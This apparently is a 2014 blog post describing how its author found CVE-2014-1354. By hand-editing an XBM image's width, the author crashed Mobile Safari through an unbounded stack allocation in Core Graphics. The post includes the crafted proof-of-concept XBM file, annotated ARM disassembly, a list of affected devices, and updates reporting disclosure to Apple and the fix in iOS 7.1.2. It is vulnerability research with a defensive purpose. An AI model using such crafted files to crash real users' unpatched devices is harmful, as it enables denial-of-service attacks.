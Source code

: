 ```yaml
---
title: "CVE-2014-1354: how to find a critical bug in iOS"
date: 2014-03-28
draft: false
toc: true
math: false
type: post
---
```


In this article we will find a critical bug in iOS Core Graphics. It will be a true old-style manual research; we will not use any automatic vulnerability scanners, code analysers, symbolic execution tools etc.

# Finding a bug

We will use the following "sandbox": 

* iPhone 4
* iOS 7.0.4 with evasi0n jailbreak
* LLDB + debugserver

We will test Mobile Safari. We are going to do the following: 

1. Choose an ancient multimedia file formal which is not used anymore but still supported by Mobile Safari.
2. Write a fuzzer for the file format and fuzz Mobile Safari.
3. …
4. Profit? If no, just start from the beginning.

Lets choose the multimedia format. Wikipedia says that WebKit (and, therefore, Mobile Safari) supports [XBM](http://en.wikipedia.org/wiki/XBM). The format is as old as mammoth's crap and nobody used it anymore. So, probably, the developers of WebKit and Mobile Safari do not test XBM support really careful. Ok, the multimedia format is chosen. Now let's read [the description of XBM](http://www.fileformat.info/format/xbm/egff.htm) and find a sample of XBM file in the Internet. After a quick search, we have found the following XBM file: 

```
#define test_width 16
#define test_height 16
static unsigned char test_bits[] = {
     0xff, 0xff, 0x01, 0x80, 0xfd, 0xbf, 0x05, 0xa0, 0xf5, 0xaf, 0x15, 0xa8,
     0xd5, 0xab, 0x55, 0xaa, 0x55, 0xaa, 0xd5, 0xab, 0x15, 0xa8, 0xf5, 0xaf,
     0x05, 0xa0, 0xfd, 0xbf, 0x01, 0x80, 0xff, 0xff };
```

It looks like concentric squares:

![](concentric-square.png)

Let's "damage" the image. Of course, writing a fuzzer for XBM is a good idea, but I'm too lazy to do it. So first will try to "damage" the image manually. For example, let's play with the first line in the image file (an image width) and open "damaged" images in Mobile Safari one by one. After several tries, we found that if the image width is big (>100000), Mobile Safari crashes. E.g. Mobile Safari just closes without any messages if we try to open the following XBM image file: 

```
#define test_width 123456
#define test_height 16
static unsigned char test_bits[] = {
     0xff, 0xff, 0x01, 0x80, 0xfd, 0xbf, 0x05, 0xa0, 0xf5, 0xaf, 0x15, 0xa8,
     0xd5, 0xab, 0x55, 0xaa, 0x55, 0xaa, 0xd5, 0xab, 0x15, 0xa8, 0xf5, 0xaf,
     0x05, 0xa0, 0xfd, 0xbf, 0x01, 0x80, 0xff, 0xff };
```

# Analyzing the bug

Let's analyze the bug. Crash Mobile Safari under LLDB and see the backtrace:

![](mobile-safari-crash.png)

It looks like the function `argb32_image_mark` in `CoreGraphics` is the reason of the bug. If we reopen the image in Mobile Safari, breakpoint `argb32_image_mark` and trace it, we will see the following: 

```
CoreGraphics`argb32_image_mark (at 0x2f96a970):
...
0x2f96a97a:  mov    r6, sp          ; r6 = sp
0x2f96a97c:  mov    r5, r0          ; r5 = the first argument of argb32_image_mark
...
0x2f96a9a0:  ldr    r0, [r5, #4]    ; r0 = [the first argument + 4] = image width
...
0x2f96a9b0:  str    r0, [r6, #100]  ; save the image width to a local var
...
0x2f96a9d2:  ldr    r3, [r1, #12]   ; r3 = [the second argument + 12]
...
0x2f96a9ea:  ldr    r1, [r6, #100]  ; r1 = the image width
...
0x2f96a9f6:  adds   r0, r3, #6      ; r0 = r3 + 6
0x2f96a9f8:  muls   r0, r1, r0      ; r0 = r1*r0
0x2f96a9fa:  add.w  r2, r0, #96     ; r2 = r0 + 96
...
0x2f96aa04:  adds   r0, r2, #3      ; r0 = r2 + 3
0x2f96aa06:  bic    r0, r0, #3      ; r0 = r0 & 0xfffffff8
0x2f96aa0a:  sub.w  r11, sp, r0     ; r11 = sp - r0
0x2f96aa0e:  mov    sp, r11         ; sp = r11
```

Now we have 

```
the new value of sp = sp - (([the second argument + 12] + 6) * the image width + 99) & 0xfffffff8
```

Numerous experiments show that `[the second argument + 12]` is always zero. So 

```
the new value of sp = sp - (6 * the image width + 99) & 0xfffffff8
```

The function `argb32_image_mark` does not check parameters as it should, so if the image width is big, `sp` runs out of the memory allocated for stack. After that, `argb32_image_mark` calls `memset` and try to fill an unallocated memory range with zeros: 

```
0x2f96aa10:  mov    r0, r11         ; destination address = the new value of sp
0x2f96aa12:  movs   r1, #0          ; memset should zero the destination address
0x2f96aa14:  blx    0x2fa339cc      ; call memset
```

It crashes `CoreGraphics`. This is the critical bug promised at the very beginning of the article :) 

# Where does it work?

The bug is reproduced with the following devices / iOS versions: 

* iPhone 4 / iOS 7.0.4
* iPod Touch 4g / iOS 6.1.5 (10b400) — thanks [Templier](http://habrahabr.ru/users/templier/) for testing
* iPad mini Retina / iOS 7.0.4 — thanks [Templier](http://habrahabr.ru/users/templier/) for testing
* iPad mini Retina / iOS 7.0.6 — thanks [maxru](http://habrahabr.ru/users/maxru/) for testing
* iPad Air / iOS 7.0.4 — thanks [ryad0m](http://habrahabr.ru/users/ryad0m/) for testing
* iPad Air / iOS 7.0.6 — thanks [ryad0m](http://habrahabr.ru/users/ryad0m/) for testing
* iPhone 5 / iOS 6.1 — thanks [silvansky](http://habrahabr.ru/users/silvansky/) for testing
* iPhone 5 / iOS 7.0.6 — thanks [Yekver](http://habrahabr.ru/users/yekver/) for testing
* iPhone 5s / latest iOS 7.1 — thanks [Anakros](http://habrahabr.ru/users/anakros/) for testing

As you see it, the bug is quite old. If you wanna test your device / iOS version, just open the link with your Mobile Safari: [test.xbm](test.xbm)

So it goes.

---

**Update from May 12, 2014:** I have reported this issue to Apple a month before the post was published. It's not fixed yet, even in iOS 7.1.1. It looks like they are overloaded with critical bugs and have no time to fix this one :(

**Update from Jun 20, 2014:** Apple wrote a mail. They are going to assign a CVE number to the bug and fix it. Well, better later then never...

**Update from Jun 30, 2014**:

> APPLE-SA-2014-06-30-3 iOS 7.1.2
>
> iOS 7.1.2 is now available and addresses the following:
>
> ...
>
> CoreGraphics
>
> Available for:  iPhone 4 and later, iPod touch (5th generation) and later, iPad 2 and later
>
> Impact:  Viewing a maliciously crafted XBM file may lead to an unexpected application termination or arbitrary code execution
>
> Description:  An unbounded stack allocation issue existed in the handling of XBM files. This issue was addressed through improved bounds checking.
>
> CVE-ID
>
> CVE-2014-1354 : Dima Kovalenko of codedigging.com

So finally they fixed the bug in iOS 7.1.2.

---